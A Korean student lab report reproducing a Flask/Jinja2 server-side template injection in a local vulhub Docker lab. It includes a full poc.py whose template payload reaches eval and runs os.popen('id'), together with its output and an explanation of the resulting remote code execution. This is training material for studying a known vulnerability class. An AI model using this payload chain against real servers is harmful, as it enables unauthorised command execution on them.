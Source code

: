 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

위의 깃허브링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 해당 깃허브 링크를 fork해서 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
<br/>

### 1.2 프로젝트 clone 및 실행
다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
docker-compose up -d 명령어를 통하여 
![docker-compose up -d 실행결과](./1.png)
<br/>


### 1.4 브라우저에서 flask 서버 접속
![서버 접속 실행결과](./1.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인
### 1.5 출력 결과 분석
이건 서버가 내가 입력한 것을 내부에서 파이썬 연산처럼 처리했다는 , Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 7 * 7 = 49 계산한 결과를 보여주는 것, 서버가 사용자의 입력을 코드로 실행한 것 = SSTI 발생! 템플릿 엔진이 입력된 수식을 그대로 실행한 결과를 보여주고 이는 SSTI취약점이 존재함을 의미

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>

### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```
![vs code로 poc.py작성](./3.png)
<br/>
### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.

 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻

### 2.4 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음


## 3. 결론

[poc.py](http://poc.py) 스크립트를 통하여 SSTI취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드(`__import__("os").popen("id").read()` 명령어를 실행하는 코드 )를 삽입하였다. 따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups를 알려주었다. 이 실습을 통하여 flask서버의 stti 취약점을 통하여 원격 코드 실행 수준의 제어가 가능함을 확인할 수 있었다. 공격자는 `name` 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도함, 이를 통해 단순 수식 평가뿐 아니라 시스템 명령어(`id`)까지 실행할 수 있었으며, 서버의 UID, GID 정보가 노출됨, 이는 명백한 SSTI 취약점으로, 상황에 따라 **원격 명령 실행(RCE)** 으로 이어질 수 있는 심각한 보안 위협임
